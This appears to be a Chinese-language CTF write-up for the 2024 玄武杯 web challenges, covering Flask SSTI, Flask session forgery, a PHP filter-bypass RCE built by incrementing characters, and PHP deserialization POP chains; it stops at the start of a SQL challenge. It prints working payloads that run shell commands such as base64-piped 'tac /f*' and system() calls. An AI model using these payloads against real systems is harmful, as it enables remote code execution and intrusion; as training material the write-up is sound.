---
title: "2024玄武杯wp--web方向(已做完)"
date: 2024-11-07T19:38:42+08:00
summary: "虽然没出题，但是还是复现一下题目吧"
url: "/posts/2024玄武杯wp--web方向(已做完)/"
categories:
  - "赛题wp"
tags:
  - "2024玄武杯"
draft: true
---

# web

## ez_flask

打开zip文件中的app.py

```php
from flask import Flask, render_template_string, render_template

app = Flask(__name__)#创建一个flask实例

@app.route('/hello/')
def hello():
    return render_template('hello.html')

@app.route('/hello/<name>')
def hellodear(name):
    if "ge" in name:
        return render_template_string('hello %s' % name)
    elif "f" not in name:
        return render_template_string('hello %s' % name)
    else:
        return 'nonono!'

if __name__ == '__main__':
    app.run(host='0.0.0.0',port='5000',debug=True)  # 在生产环境中应关闭调试模式
```

考点:Flask下SSTI漏洞

`__class__`:用于返回对象所属的类

`__base__`:以字符串的形式返回一个类所继承的类

`__bases__`:以元组的形式返回一个类所继承的类

`__mro__`:返回解析方法调用的顺序，按照子类到父类到父父类的顺序返回所有类（当调用_mro_[1]或者-1时作用其实等同于_base_）

```
第一步，拿到当前类，也就是用__class__
url/hello/name={{"".__class__}}
<class 'str'>
第二步，拿到基类，这里可以用__base__，也可以用__mro__
url/hello/name={{"".__class__.__base__}}
<class 'object'>
//object为str的基类
object是父子关系的顶端，所有的数据类型最终的父类都是object
url/hello/name={{"".__class__.__mro__}}
(<class 'str'>, <class 'object'>)
```

`__subclasses__()`:获取类的所有子类

`__init__`:所有自带带类都包含init方法，常用他当跳板来调用globals

`__globals__`:会以字典类型返回当前位置的全部模块，方法和全局变量，用于配合init使用

```
第三步，拿到基类的子类，用__subclasses__()
url/hello/name={{"".__class__.__base__.__subclasses__()}}
```



可以看到object类下面有很多子类

接下来的话，就要找可利用的类，寻找那些有回显的或者可以执行命令的类
大多数利用的是`os._wrap_close`这个类，我们这里可以用一个简单脚本来寻找它对应的下标



可以看到下标是155，但因为是从0开始的，所以我们应该选择下标为154，实在不行看看就知道了

```
url/hello/name={{"".__class__.__bases__[0]. __subclasses__()[154]}}
```



可以看到确实是我们想要的子类

接下来就可以利用`os._wrap_close`
首先先调用它的`__init__`方法进行初始化类

```
url/hello/name={{"".__class__.__bases__[0]. __subclasses__()[154].__init__}}
```



可以看到初始化后也是返回了一个地址

然后再调用`__globals__`获取到方法内以字典的形式返回的方法、属性等

```
name={{"".__class__.__bases__[0]. __subclasses__()[154].__init__.__globals__}}
```

然后在这些方法和属性里面就可以找到我们想要的flag了

不过这个做法有点像非预期解哈，感觉跟源代码没什么特别的关系

正常的做法在构造payload的时候需要绕过字母f，我们可以正常用base编码进行绕过

```
url/hello/name={{g.pop.__globals__.__builtins__['__import__']('os').popen('echo dGFjIC9mKg==|base64 -d|sh').read()}}
```

1. `g.pop`：这里`g`是一个变量，`pop`是`g`的一个属性，它用于从列表中弹出（删除并返回）最后一个元素。
2. `.__globals__`：`__globals__`是获取对象的全局命名空间的特殊属性。它可以访问包含全局变量和内置模块的字典。
3. `__builtins__`：`__builtins__`是Python解释器中的一个内置模块，它包含了Python的内置函数和异常。通过`__builtins__`，我们可以访问内置模块中的函数。
4. `['__import__']('os')`：这是通过`__builtins__`字典访问`__import__`函数，并传入字符串`'os'`作为参数。`__import__`函数用于动态导入模块，这里我们尝试导入`os`模块，它提供了访问操作系统功能的接口。
5. `.popen('echo dGFjIC9mKg==|base64 -d|sh').read()`：在成功导入`os`模块后，我们调用`popen`函数，并传入恶意命令字符串`'echo dGFjIC9mKg==|base64 -d|sh'`作为参数。该命令使用`base64`解码字符串`dGFjIC9mKg==`，然后将结果作为shell命令执行，并返回输出结果。

## ez_love

你会表白多少次？520次？

有一个ziip文件，下载下来有app.py

打开看一下

```py
from flask import Flask, session, request, jsonify, render_template_string
import os

app = Flask(__name__)
app.secret_key = 'cdusec'  # 设置一个秘密密钥

# 存储表白次数的字典
confessions = {}


# 主页
@app.route('/')
def index():
    # 初始化 session
    if 'user_id' not in session:
        session['user_id'] = 'anonymous'
    if 'is_admin' not in session:
        session['is_admin'] = 0

    user_id = session.get('user_id', 'anonymous')
    confessions_count = confessions.get(user_id, 0)

    return render_template_string('''
        <!doctype html>
        <html>
        <head>
            <title>表白墙</title>
            <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
            <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
            <script src="{{ url_for('static', filename='script.js') }}"></script>
        </head>
        <body>
            <div class="background">
                <div class="container">
                    <h1>表白墙</h1>
                    <form id="confess-form">
                        <input type="text" id="confessor" name="confessor" placeholder="表白人">
                        <input type="text" id="confessee" name="confessee" placeholder="被表白人">
                        <input type="text" id="message" name="message" placeholder="请输入你的表白">
                        <button type="submit">表白</button>
                    </form>
                    <p>你已经表白 <span id="confessions-count">{{ confessions_count }}</span> 次</p>
                    <div id="flag-section" style="display:none;">
                        <p>你已经表白520次，恭喜你获得了flag！</p>
                        <form id="get-flag-form">
                            <button type="submit">获取flag</button>
                        </form>
                    </div>
                </div>
            </div>
        </body>
        </html>
    ''', confessions_count=confessions_count)


# 处理表白
@app.route('/confess', methods=['POST'])
def confess():
    confessor = request.form['confessor']
    confessee = request.form['confessee']
    message = request.form['message']
    user_id = session.get('user_id', 'anonymous')
    is_admin = session.get('is_admin', 0)

    if user_id not in confessions:
        confessions[user_id] = 0

    if is_admin == 1:
        confessions[user_id] += 1

    return jsonify(success=True, confessions=confessions[user_id])


# 获取flag
@app.route('/flag', methods=['GET', 'POST'])
def get_flag():
    user_id = session.get('user_id', 'anonymous')
    is_admin = session.get('is_admin', 0)
    key = request.args.get('key') or request.form.get('key')

    if key != 'cdusec':
        return jsonify(success=False, message="无效的密钥")

    if is_admin == 1 and user_id in confessions and confessions[user_id] >= 520:
        flag = get_flag_from_root()
        return jsonify(success=True, flag=flag)
    else:
        return jsonify(success=False, message="你还没有表白520次或不是管理员！")


# 获取根目录下的flag
def get_flag_from_root():
    flag_path = '/flag'  # 替换为实际的flag路径
    with open(flag_path, 'r') as f:
        flag = f.read().strip()
    return flag


if __name__ == '__main__':
    app.run(debug=True)
```

我们先分析一下代码

这里是基于flask框架做的一个项目程序

设置一个秘密密钥app.secret_key = 'cdusec'

设置了一个存储表白次数的字典confessions

- 先看主页部分

@app.route('/')

这里是route()装饰器，使用route（）装饰器告诉Flask什么样的URL能触发我们的函数.route（）装饰器把一个函数绑定到对应的URL上，这句话相当于路由，一个路由跟随一个函数

举个例子:

```python
@app.route('/')
def test()"
   return 123
```

访问127.0.0.1:5000/则会输出123

另外还可以设置动态网址

```python
@app.route("/hello/<username>")
def hello_user(username):
  return "user:%s"%username
```

根据url里的输入，动态辨别身份



1. 当我们访问url/的时候，session会进行初始化，将user_id的值设为anonymous，将is_admin的值设为0
2. confessions_count = confessions.get(user_id, 0)这里从 `confessions` 字典中获取 `user_id` 对应的值，并将其赋值给 `confessions_count` 变量。如果 `confessions` 字典中没有 `user_id`，则返回默认值 `0`

- 再看表白部分

1. @app.route('/confess', methods=['POST'])是一个 Flask 路由装饰器，用于定义一个处理 `/confess` 路径的 POST 请求的路由，这个路由只接受 POST 请求。如果客户端使用其他 HTTP 方法（如 GET、PUT、DELETE 等）访问这个路径，服务器会返回 405 Method Not Allowed 错误，例如我们如果直接访问这个网站的话就会出现405错误



1. 这里定义了confessor，confessee，message，从HTTP POST请求的表单数据中提取
2. if user_id not in confessions:
           confessions[user_id] = 0
       if is_admin == 1:
           confessions[user_id] += 1这里进行了检测，如果user_id不在字典里面，就会让字典里的user_id值等于0，如果is_admin的值等于1，那么字典里的user_id的值就自增（这里很关键）
3. return jsonify(success=True, confessions=confessions[user_id])表示最后会返回一个ture和字典中user_id的值，转化JSON响应返回

- 再看获取flag部分

1. key = request.args.get('key') or request.form.get('key')首先尝试从 URL 查询参数中获取 `key`，如果 URL 查询参数中没有 `key`，则尝试从 POST 请求的表单数据中获取 `key`，意思就是我们可以通过GET或者POST去传递key的值
2. 如果key的值不等于cdusec，就会返回错误
3. 如果is_admin == 1 and user_id in confessions and confessions[user_id] >= 520成立，则会从get_flag_from_root()函数中获取flag进行赋值，不然就会返回错误信息

获取根目录下的flag就不用看了，对解题没什么作用

总结一下我们的思路

1.我们需要设置session中user_id和is_admin的值

2.需要满足的条件：user_id的值为1,字典中is_admin的值为520,key的值为cdusec

猜测是flask下的session伪造

那我们开始解题

先开启环境访问url/



因为访问/confess会出错，我们需要改成post的数据包，所以我们用burpsuite抓包，然后改成post数据包




我们先传参数confessor，confessee，message看看



这里可以看到confessions还是0，可能是里面没有user_id，这时候我们需要设置session中user_id的值

这里就涉及到flask的session伪造了

### flask下的session伪造

**session的作用**

由于http协议是一个无状态的协议，也就是说同一个用户第一次请求和第二次请求是完全没有关系的，但是现在的网站基本上有登录使用的功能，这就要求必须实现有状态，而session机制实现的就是这个功能。
用户第一次请求后，将产生的状态信息保存在session中，这时可以把session当做一个容器，它保存了正在使用的所有用户的状态信息；这段状态信息分配了一个唯一的标识符用来标识用户的身份，将其保存在响应对象的cookie中；当第二次请求时，解析cookie中的标识符，拿到标识符后去session找到对应的用户的信息

所以这就是为什么我们先要访问url/的原因，就是对session进行初始化

session是在服务端用来存储用户信息的,类似于来宾登记表,通过http报文中的cookie进行传递.由于flask轻量级的设计,因此session是存储在客户端的,因此也带来了flask session伪造的风险.

**flask session的储存方式**

第一种方式：直接存在客户端的cookies中

第二种方式：存储在服务端，如：redis,memcached,mysql，file,mongodb等等，存在flask-session第三方库

**flask的session可以保存在客户端的cookie**中，那么就会产生一定的安全问题。

那么后面我们就可以根据cookie中的session的值进行修改了

flask中的session通过`app.secret_key = ...`来设置.

源代码中的secret_key的值为cdusec

flasksession通常是由三部分组成，中间通过`.`来进行分割.第一部分就是我们json形式的数据通过base64加密后的结果，第二部分是时间戳，也算是签名算法，第三部分就是我们的密钥签名

时间戳：用来告诉服务端数据最后一次更新的时间，超过31天的会话，将会过期，变为无效会话；

签名：是利用`Hmac`算法，将session数据和时间戳加上`secret_key`加密而成的，用来保证数据没有被修改。

我们先来分析这段session的值

eyJpc19hZG1pbiI6MCwidXNlcl9pZCI6ImFub255bW91cyJ9.ZyyyoQ.M_fymfx7RJybrgZwoZv_hp2wLe0

这里先给一个解密的脚本:

### 解密脚本

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)


if __name__ == '__main__':
    print(decryption("eyJpc19hZG1pbiI6MCwidXNlcl9pZCI6ImFub255bW91cyJ9.ZyyyoQ.M_fymfx7RJybrgZwoZv_hp2wLe0".encode()))#把需要加密的flasksession的值换一下就行

```

换成我们的session的值后打印出来的数据是



可以看到里面就是我们想要的is_admin和user_id

因为flask session是利用hmac算法将session数据，时间戳加上secert_keybase64加密而成的，那么我们要进行session伪造就要先得到secret_key，当我们得到secret_key我们就可以很轻松的进行session伪造。因为这里我们已知secret_key的值了就可以直接进行session伪造了

### flask_unsign进行加密和解密

安装:

```
pip install flask-unsign
```

先对cookie进行解密

```
flask-unsign --decode --cookie 'eyJpc19hZG1pbiI6MCwidXNlcl9pZCI6ImFub255bW91cyJ9.ZyyyoQ.M_fymfx7RJybrgZwoZv_hp2wLe0'
```

签名加密

```
flask-unsign --sign --cookie "json数据" --secret '密钥'
```

这里我将user_id设为2看看



将加密后的session替换，然后发包，发现次数变成1了，再发包看看，发现又变成2了，那我们就用爆破进行自己发包就行





什么方法都行，只要能发包发520次就能让字典的user_id变成520



可以看到这里是满足大于520的条件了的，并且我们的is_admin的值也是1

那就访问/flag然后给key传递cdusec就可以拿到flag了



## ez_rce

先看题目

```php
<?php
error_reporting(0);
show_source(__FILE__);
if (isset($_POST['cdu_sec.wi'])){
    $CDUSec=$_POST['cdu_sec.wi'];
    if(is_string($CDUSec)){
        if(!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$CDUSec)){
            eval($CDUSec);
        }else{
            echo "怎么是杂鱼~~,Can you hack me?";
        }
    }else{
        echo "bushi,你连第一层都过不去？";
    }
}
```

这不就是每周大挑战的极限rce嘛，这里我们先拿那道题来讲解一下

### 每周大挑战rce2

```php
<?php
//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow)) {
        if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("Are you hacking me AGAIN?");
        }
    }else{
        phpinfo();
    }
}
?>
```

基本把能用的都过滤了，那我们就先用脚本把能用的字符打印出来看看

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",chr($i))){
            echo chr($i)." ";
        }
}
/*
! $ ' ( ) + , . / ; = [ ] _ 
*/
```

这里我们用自增rce进行绕过命令执行

思路就是，我们rce需要字母，但字母都过滤了，所以我们就要想办法去构造字母

#### 自增rce

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`

```php
<?php
$a = []._;
//$a为“Array_”
echo $a[0];
//会输出：A
$b = $a[0];
echo ++$b;
//会输出：B
?>
```

因为数字也过滤掉了，变量名可以用下划线替代，`$a[0]`中的数字0也可以用下划线替代

```php
<?php
$_ = []._;
echo $_[_];
//输出：A
?>
```

我们想传入POST的payload是

```
cdu_sec.wi=$_POST[_]($_POST[__])
```

exp:

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$____='_';//_
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//P
$____.=$__;//_P
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//O
$____.=$__;//_PO
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//S
$____.=$__;//_POS
$__=$_;//A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//T
$____.=$__;//_POST
$_=$____;//_POST

$$_[__]($$_[_]);//$_POST[__]($_POST[_]);
```

这里得对exp进行url编码再传入

```
ctf_show=%24%5F%3D%5B%5D%2E%27%27%3B%24%5F%3D%24%5F%5B%27%27%3D%3D%27%24%27%5D%3B%24%5F%5F%5F%5F%3D%27%5F%27%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%3D%24%5F%5F%5F%5F%3B%24%24%5F%5B%5F%5F%5D%28%24%24%5F%5B%5F%5D%29%3B&__=system&_=cat /f1agaaas
```

让我们来看这道题，其实跟上面的rce2是一样的，唯一的不同点是变量名增加了一点考察

根据php特性我们可以知道，变量名的命名规则是

- 变量以 $ 符号开头，其后是变量的名称。
- 变量名称必须以字母或下划线开头。
- 变量名称不能以数字开头。
- 变量名称只能包含字母数字字符和下划线（A-z、0-9 以及 _）。

而cdu_sec.wi这个变量名中出现了一个小数点，那就是不符合规则的变量名，我们就得想办法去绕过

**在 PHP 8 之前 的版本中，当参数名中含有 `.`（点号）或者`[`(下划线)时，会被自动转为 `_`（下划线）。如果`[`出现在参数中使得错误转换导致接下来如果该参数名中还有`非法字符`并不会继续转换成下划线`_`，但是如果参数最后出现了`]`,那么其中的非法字符还是会被正常解析(不会转换)，因为被当成了数组**

所以我们的变量名应该设为cdu[sec.wi再进行传入就可以了

当然也可以构造get形式的paylaod

```
POST：
cdu[sec.wi=$_=[]._;$_=$_['_'];$_++;$_++;$_++;$__=++$_;$_++;$__=++$_.$__;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__=$__.++$_;$_=_.$__;$$_[_]($$_[__]);
GET：
?_=system&__=tac /f1ag;
```

## ez_pop

```php
<?php
show_source(__FILE__);
error_reporting(0);
class C{
    private $name;
    private $age;
    public function __construct($name,$age)#构造函数，当一个对象创建时被调用。具有构造函数的类会在每次创建新对象时先调用此方法
    {
        $this->age=$age;
        $this->name=$name;
    }
    public function __destruct()#当一个对象销毁时被调用。会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行
    {
        echo $this->name->me;
    }
}
class D{
    public $source;
    public $str;
    public function __toString()#当一个对象被当作一个字符串被调用，把类当作字符串使用时触发，返回值需要为字符串
    {
        eval($this->str->source);
    }
    public function __wakeup()#反序列化恢复对象之前调用该方法
    {
        $this->str="baozongwi";
    }
}
class U{
    public $cmd;
    public function __invoke()#当你尝试将一个对象像函数一样调用时，__invoke() 会被触发。
    {
        echo $this->cmd;
    }
}
class sec{
    public $p;
    public function __get($p)#读取不可访问或者是不存在的属性时触发，用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行
    {
        $function=$this->p;
        return $function();
    }
}

if(isset($_GET['a'])){
    $b=unserialize($_GET['a']);
}
```

分析完这些魔术方法我们接下来就应该构造我们的pop链了

构造pop链，我一般会先把链子的入口和出口找出来，这里可以看到，在__toString()魔术方法中有危险函数eval，那么这个魔术方法就可以作为我们的出口，先来分析一下这段代码

 eval($this->str->source);

- $this->str---调用父类中的str属性
- $this->str->source---由于这里多了一个source，所以这里的str不应该是属性而应该是一个类，从str类中调用source

那么我们不难想到，我们应该让str变成一个实例化对象，然后让source的值设为我们要执行的恶意代码，那我们就可以继续推我们的pop链了

那什么类中有source属性，那就是他本身的D类了，这里可以我们可以用指针引用，令str的值指向D类，那么在执行eval函数的时候我们的str会调用D类中的source去执行

这里可以看到在D类中有一个wakeup魔术方法，他会让str赋值成"baozongwi"，而我们需要的是将str变成一个实例化对象，所以我们应该绕过wakeup

那么我们的入口只能是__destruct魔术方法，接下来我们就可以构造pop链

```php
C::destruct->sec::get->U::invoke->D::toString
```

那就写个poc

```php
<?php
class C{
    public $name;
    public $age;
}
class D{
    public $source;
    public $str;
}
class U{
    public $cmd;
}
class sec{
    public $p;
}
#实例化对象
$sec = new sec();
$u = new U();
$d = new D();
$c = new C();
$c->name=$sec;
$sec->p=$u;
$u->cmd=$d;
$d->str=&$d;
$d->source="system('ls /');";
echo str_replace('O:1:"D":2:','O:1:"D":3:',serialize($C));#wakeup()绕过方法
```

通过修改属性的个数

我们需要先把name设置为public的属性，不然我们在赋值的时候就会出错

为了更直观的看到pop链的构造，我搬来了baozongwi的poc

```php
<?php
class C{
    public $name;
}
class D{
    public $source;
    public $str;
}
class U{
    public $cmd;
}
class sec{
    public $p;
}
$a=new C();
$a->name=new sec();
$a->name->p=new U();
$a->name->p->cmd=new D();
$a->name->p->cmd->str=new D();
$a->name->p->cmd->str->source="system('tac /f*');";
$b=serialize($a);
$c=urlencode($b);
$d=str_replace("4%3A%22name","7%3A%22%00C%00name",$c);
echo $d;
```

绕过`wakeup`的方法是利用`fast_destruct`

修改source属性的payload就可以拿到flag了

## baby_sql

先看题目

